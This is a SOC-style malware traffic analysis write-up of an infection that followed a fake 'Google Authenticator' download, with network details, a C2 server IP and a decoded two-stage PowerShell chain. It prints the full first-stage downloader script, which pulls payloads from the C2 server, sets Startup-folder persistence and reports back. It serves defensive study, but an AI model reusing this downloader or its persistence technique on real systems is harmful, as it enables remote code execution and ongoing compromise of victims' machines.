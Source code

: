 ```yaml
---
title: Malware Traffic Analysis Report
date: 2025-01-27 18:00:00 +0800
categories: [Malware Analysis]
tags: [Malware, Traffic Analysis, Cybersecurity, SOC]
image:
  path: /images/mal/malware.jpg
---
```


## Malware Traffic Analysis Report

**Analyzed By:** Ali Msahli (AL1_D0CS)  
**Date:** 01/27/2025  
**Source:** [Malware-traffic-analysis.net](https://malware-traffic-analysis.net)  

---

### Background

You work as an analyst at a Security Operation Center (SOC). A coworker reported downloading a suspicious file after searching for "Google Authenticator." The caller provided the following information, similar to social media posts:

- [Unit42 on LinkedIn](https://www.linkedin.com/posts/unit42_2025-01-22-wednesday-a-malicious-ad-led-activity-7288213662329192450-ky3V/)
- [Unit42 on X (formerly Twitter)](https://x.com/Unit42_Intel/status/1882448037030584611)

Based on the initial information, you confirmed an infection and retrieved a packet capture (PCAP) for analysis. Reviewing the traffic, you found indicators matching details from a GitHub page referenced in the social media posts.

---

### LAN Segment Details (from PCAP)

| Detail                     | Value                                     |
|----------------------------|-------------------------------------------|
| **LAN Range**              | `10.1.17[.]0/24`                         |
| **Domain**                 | `bluemoontuesday[.]com`                  |
| **AD Domain Controller**   | `10.1.17[.]2 - WIN-GSH54QLW48D`          |
| **AD Environment Name**    | `BLUEMOONTUESDAY`                        |
| **LAN Gateway**            | `10.1.17[.]1`                            |
| **LAN Broadcast Address**  | `10.1.17[.]255`                          |

---

### My Setup

For this investigation, I used the following tools:
- **Security Onion VM** with tools like Sguil, Wireshark, Kibana, and NetworkMiner.
- Additional tools: **VirusTotal** and **CyberChef**.

---

### Analysis



#### Alerts and Connections
<img src="/images/mal/mal1.png" alt="Securinets" style="width: auto; height: auto; margin-right: 10%;" />

Using **NetworkMiner**, I identified connections between the victim and the Command-and-Control (C2) server:

<img src="/images/mal/mal2.png" alt="Securinets" style="width: auto; height: auto; margin-right: 10%;" />

- **Victim IP:** `10.1.17.215`
- **Victim MAC:** `00:d0:b7:26:4a:74`
- **C2 Server IP:** `5.252.153.241`

#### Object Analysis in Wireshark

<img src="/images/mal/mal3.png" alt="Securinets" style="width: auto; height: auto; margin-right: 10%;" />

By examining HTTP requests, I found a suspicious file containing the following PowerShell script:

```powershell
function Download-Files($panelIP, $files, $filesDir){ $web = New-Object System.Net.WebClient try { if(!(Test-Path $filesDir)) { New-Item $filesDir -ItemType Directory | Out-Null } } catch { return @{'status' = 'error'; 'message' = 'error while creating startup directory'} } foreach($file in $files) { try { $link = $file.link $fileName = $file.name $filePath = "$filesDir\$($file.name)" $web.DownloadFile($link, $filePath) if($fileName -eq $startupFile){ $exePath = $startupFile } } catch { return @{'status' = 'error'; 'message' = "Error while download file. Filename: $($file.name). Link: $($link). Error: $($Error[0].exception.message)"} } } return @{'status' = 'success'} } function Create-Shortcut($filePath, $shortCutpath){ $WshShell = New-Object -comObject WScript.Shell $Shortcut = $WshShell.CreateShortcut($shortCutpath) $Shortcut.TargetPath = $filePath $Shortcut.Save() } function Invoke-Startup($panelIP, $files, $filesDir, $startupFileName){ $result = Download-Files $panelIP $files $filesDir if ($result.status -eq 'error'){ return $result } #$startupFilePath = "$filesDir\$startupFileName" $startupFilePath = "C:\ProgramData\huo\TeamViewer.exe" $shortcutPath = "$([Environment]::GetFolderPath('Startup'))\TeamViewer.lnk" try { Create-Shortcut $startupFilePath $shortcutPath } catch { return @{'status' = 'error'; 'message' = "Error while creating shortcut."} } return @{'status' = 'success'; 'message' = 'startup shortcut created'} } function Send-Log($result){ $log = "?k=$result" $uploadUrl = $url + $log $web = New-Object System.Net.WebClient $web.DownloadString($uploadUrl) } function ConvertTo-StringData($hashTable){ foreach ($item in $hashTable) { foreach ($entry in $item.GetEnumerator()) { "{0} = {1}; " -f $entry.Key, $entry.Value } } } $filesDownloadLink = $ip + 'api/file/get-file/' $filesDir = 'C:\ProgramData\huo' $files = @( @{'name' = 'TeamViewer.exe'; 'link' = $filesDownloadLink + 'TeamViewer'}, @{'name' = 'Teamviewer_Resource_fr.dll'; 'link' = $filesDownloadLink + 'Teamviewer_Resource_fr'}, @{'name' = 'TV.dll'; 'link' = $filesDownloadLink + 'TV'} @{'name' = 'pas.ps1'; 'link' = $filesDownloadLink + 'pas.ps1'} ) $startupFile = 'TeamViewer.exe' $result = Invoke-Startup $panelIP $files $filesDir $startupFile $result = ConvertTo-StringData($result) Send-Log($result)
```
This script ensures that the downloaded executable (TeamViewer.exe) runs every
time the system starts by creating a shortcut in the startup folder, in addition it
downloads additional files (TV, pas.ps1) that may perform further malicious actions.
And finally, it sends the execution result to a remote server.

<img src="/images/mal/mal4.png" alt="Securinets" style="width: auto; height: auto; margin-right: 10%;" />

Checking each file hash on VirusTotal it seems that only TV might be malicious.

<img src="/images/mal/mal5.png" alt="Securinets" style="width: auto; height: auto; margin-right: 10%;" />

The file pas.ps1 contains this random looking code :

<img src="/images/mal/code.png" alt="Securinets" style="width: auto; height: auto; margin-right: 10%;" />


I have used Cyberchef to clean this using find & replace 

<img src="/images/mal/mal6.png" alt="Securinets" style="width: auto; height: auto; margin-right: 10%;" />

Now i need to transform this string from base64 

<img src="/images/mal/mal7.png" alt="Securinets" style="width: auto; height: auto; margin-right: 10%;" />

The output is a string in base64, the final output looks like this:

<img src="/images/mal/code1.png" alt="Securinets" style="width: auto; height: auto; margin-right: 10%;" />

This PowerShell script is designed to continually connect to a remote server and execute commands or malicious payloads retrieved from that server.
How ?
This script create a COM object used to interact with the file system then Retrieve the serial number of C:\  convert it to hexadecimal string  convert it back into integer 64-bits  store it in a variable $serial  append the serial number to the remote server ip address $url = $ip + $serial 

This will keep running in the infinite while loop until it downloads and execute the $result 
The continuous retry mechanism ensures that the attack persists even if the server is temporarily unreachable.

### Conclusion

The investigation of the malware traffic revealed a coordinated attack using
obfuscated PowerShell scripts. The initial infection was caused by a suspicious file
downloaded by the victim. The malware operates in two main stages

#### First Stage (Downloader)

A PowerShell script was used to download and execute additional payloads
(pas.ps1) from a remote Command-and-Control (C2) server.

This script establishes persistence by creating a shortcut in the startup folder,
ensuring the execution of malicious files like TeamViewer.exe on system
startup.

#### Second Stage (C2 Communication)

 The secondary script (pas.ps1) contains obfuscated, Base64-encoded
commands that execute a persistent infinite loop to communicate with the
attacker’s C2 server.
 It retrieves commands from the server and executes them on the infected
machine. The C: drive’s serial number is used as a unique identifier for the
victim, allowing the attacker to track individual targets

#### Impact

 Persistence: The malware ensures it restarts with the system.
 Remote Execution: The attacker can remotely deploy additional payloads,
execute commands, or exfiltrate data.
 Obfuscation: The use of encoding and obfuscation techniques complicates
detection by traditional security tools.